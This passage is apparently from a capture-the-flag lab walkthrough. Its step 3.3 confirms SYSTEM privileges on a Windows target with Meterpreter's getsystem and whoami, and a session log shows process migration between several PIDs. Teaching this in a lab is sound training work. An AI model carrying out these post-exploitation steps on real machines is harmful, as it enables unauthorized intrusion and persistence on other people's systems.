 <figure><img src="../.gitbook/assets/Schermata del 2023-06-05 22-25-45.png" alt=""><figcaption></figcaption></figure>

#### 3.3 - Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

```bash
meterpreter > migrate 1068
[*] Migrating from 1364 to 1068...
[*] Migration completed successfully.
meterpreter > migrate 1704
[*] Migrating from 1068 to 1704...
meterpreter > migrate 1688
[*] Migrating from 1068 to 1688...
[*] Migration completed successfully.
```

### Task 4 - Cracking
